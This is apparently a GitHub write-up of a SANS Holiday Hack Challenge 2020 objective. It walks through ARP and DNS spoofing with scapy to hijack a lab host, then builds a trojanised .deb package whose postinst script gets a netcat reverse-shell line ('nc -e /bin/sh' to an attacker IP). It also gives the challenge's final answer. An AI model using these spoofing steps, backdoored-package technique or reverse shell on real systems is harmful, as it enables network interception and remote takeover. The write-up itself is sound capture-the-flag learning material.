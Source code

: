 # Objective 9 – ARP Shennanigans #

## OBJECTIVE: ##
>Go to the NetWars room on the roof and help Alabaster Snowball get access back to a host using ARP.  Retrieve the document at `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`.  Who recused herself from the vote described on the document?
#  

## Hints ##
<details>
  <summary>Hints provided for Objective 9</summary>
 
>-	**ALABASTER SNOWBALL:** Jack Frost must have gotten malware on our host at `10.6.6.35` because we can no longer access it.  Try sniffing the eth0 interface using `tcpdump -nni eth0` to see if you can view any traffic from that host.
>-	**ALABASTER SNOWBALL:** The host is performing an ARP request.  Perhaps we could do a spoof to perform a machine-in-the-middle attack.  I think we have some simple `scapy` traffic scripts that could help you in `/home/guests/scripts`.
>-	**ALABASTER SNOWBALL:** Hmmm, looks like the host does a DNS request after you successfully do an ARP spoof.  Let’s return a DNS response resolving the request to our IP.
>-	**ALABASTER SNOWBALL:** The malware on the host does an HTTP request for a .deb package.  Maybe we can get command line access by sending it [a command in a customized .deb file](http://www.wannescolman.be/?p=98).



</details>

#  
## PROCEDURE: ##
Well... judging juist by the sheer amount of hints we get for this objective; I’m guessing it’s going to be a tough one!

Let’s start by following the hints.  Running ``tcpdump -nni eth0``.  We see a number of ARP requests for `10.6.6.53` from `10.6.6.35` (which is the host we need to regain access to).  At this point I’m guessing that `10.6.6.53` is a malicious machine and that `10.6.6.35` is trying to reach it to establish some kind of reverse shell.  So maybe we can get `10.6.6.35` to believe that we are `10.6.6.53`.

We can sniff and record packets by entering `scapy` and running ``pkts = sniff(iface=’eth0’)``.  We can then view specific packets by referencing ``pkts[x]``  or ``pkts.summary()``.

From one of the logged Scapy entries we can see that the `10.6.6.35` machine has a MAC of `4c:24:57:ab:ed:84`
 ![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/89959548-43c7-4e9f-a933-79bcceb779af)

We need to properly craft an ARP response:

`Ether_resp = Ether(dst=4c:24:57:ab:ed:84, type=0x806, src=02:42:0a:06:00:02)`

`arp_response.op=2` *because this is an ARP response*

`arp_response.plen=4` *because there are 4 octets in a IPv4 address*

`arp_response.hwlen=6` *because there are 6 octets in an Ethernet address*

`arp_response.ptype=0x800` *this is the code for IPv4*

`arp_response.hwtype=0x1` *this is the code for Ethernet*

`arp_response.hwsrc="02:42:0a:06:00:02"` *this is my terminal’s MAC*

`arp_response.psrc="10.6.6.53"` *this is the IP I’m spoofing*

`arp_response.hwdst=4c:24:57:ab:ed:84` *this is the MAC obtained in Scapy*

`arp_response.pdst="10.6.6.35"` *this is the IP we’re sending the response to.*


After running `./arp_resp.py` I can see the following output on the tcpdump – looks like a DNS request so I must be on the right track:
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/efd14fb2-f627-43b4-9fb3-8e6dee1ec5a3)

It is also possible toget more details from the Scapy sniff – the DNS portion is particularly useful now.
```
<Ether  dst=02:42:0a:06:00:02 src=4c:24:57:ab:ed:84 type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=60 id=1 flags= frag=0 ttl=64 proto=udp chksum=0x5a4d src=10.6.6.35 dst=10.6.6.53 |<UDP  sport=42244 dport=domain len=40 chksum=0x9559 |<DNS  id=0 qr=0 opcode=QUERY aa=0 tc=0 rd=1 ra=0 z=0 ad=0 cd=0 rcode=ok qdcount=1 ancount=0 nscount=0 arcount=0 qd=<DNSQR  qname='ftp.osuosl.org.' qtype=A qclass=IN |> an=None ns=None ar=None |>>>>
```

Thanks to the hints I now know that I need to spoof a DNS response and have it point to my terminal.  For this I need to update the `dns_resp.py` script with the following parameters:
```
ipaddr_we_arp_spoofed = "10.6.6.53"
eth = Ether(src="02:42:0a:06:00:02", dst="4c:24:57:ab:ed:84")
ip=IP(dst="10.6.6.35", src="10.6.6.53")
udp=UDP(dport=12773,sport=53)
    dns = DNS(
      id=packet[DNS].id,
      qd=packet[DNS].qd,
      aa=1,
      qr=1,
      ancount=1,
      an=DNSRR(rrname=packet[DNS].qd.qname, ttl=10, rdata=ipaddr)
    )
```
To figure out this last bit I had to resort to asking for help on Discord.  **@elakamarcus#5519** helped me out a lot by pointing me towards [a nice script](https://www.cs.dartmouth.edu/~sergey/netreads/local/reliable-dns-spoofing-with-python-scapy-nfqueue.html) online which I used for reference to create my own scipts; [arp_resp.py](code/arp_resp.py) and [dns_resp.py](code/dns_resp.py). 

With the scripts ready I started ``tcpdump –nni eth0 –w outfile.pcap`` in one terminal then ran ``./dns_resp.py`` in another terminal and left it running.  Finally I ran ``./arp_resp.py`` in the third terminal and this generated the ARP response we did previously, and then a DNS response to the request that was triggered.  

Looking at the resulting pcap file in Scapy;
```
>>>f=rdpcap(“/home/guest/outfile.pcap”)
>>>f.summary()
>>>f[IP].summary()
```
We now see a number of new requests including http requests.

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/0cccf691-cc10-484e-8647-1a13c44b1d85)
 

We can use ``>>> hexdump(f[IP][12].load)`` to see the contents of individual packets.

I now started up a http server as suggested by the HELP.md file:
```
~$ python3 –m http.server 80
```

If I try sending out the crafted ARP response and DNS response packets again I receive a GET instruction on the http server and guess what?.... it looks like Jack Frost is trying to download a file called `suriv_amd64.deb`!

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/61051b2c-f2e1-4eb5-9a66-39dba2de50d9)

 
Well this seems like an opportunity to pass on my own .deb file with a reverse shell to give me access to the compromised terminal.
I created an empty file called `suriv_amd64.deb` and the `/pub/jfrost/backdoor/` directories and I confirm that the file is being download with my http server returning code 200 now.
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/377aae44-d9ed-4d79-ae30-8da4fd0cbf68)
  
OK – so all I need is to find some way to make the deb file open a reverse shell when it is installed on the compromised machine.  This is where [the link in one of the hints for this objective](http://www.wannescolman.be/?p=98) came in very handy.

I took the Netcat debian file found in the `debs/` folder and de-packaged it to a temporary folder called `work/`: 
```
~$ dpkg -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb work
```

I created a directory called `DEBIAN` in work
```
~$ mkdir work/DEBIAN
```

I extracted the `control` and `postinst` files from the deb package and moved them to the `work/DEBIAN/` directory:
```
~$ ar -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb
~$ tar -xf control.tar.xz ./control
~$ tar -xf control.tar.xz ./postinst
~$ mv control work/DEBIAN/
~$ mv postinst work/DEBIAN/
```

Now I added a line to the end of the `postinst` file to have it establish a Netcat reverse shell (We know that Netcat is installed if the deb has been run).
```
~$ echo “nc -e /bin/sh 10.6.0.4 5555” >> work/DEBIAN/postinst
```

And I re-package the deb file:
```
~$ dpkg-deb --build work/
```

Finally I moved the .deb file to the web server, renaming it to the file Jack Frost is looking for:
```
~$ mv work.deb /home/guest/pub/jfrost/backdoor/suriv_amd64.deb
```

Now we start a Netcat listener, start the web server, run the DNS response script and the ARP response script and after a few seconds – we have a Netcat session up and running!  
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/87d67274-fb8c-4da2-8e5d-897ed90dfbe0)

Conveniently I’m in the same directory as `NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt` and I can simply see its contents with `cat`:
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/82d7b466-78d4-487f-acd9-bf649459aa26)

That’s it – **Tanta Kringle** was the one who recused herself from the vote.  I can’t believe I made it this far!!
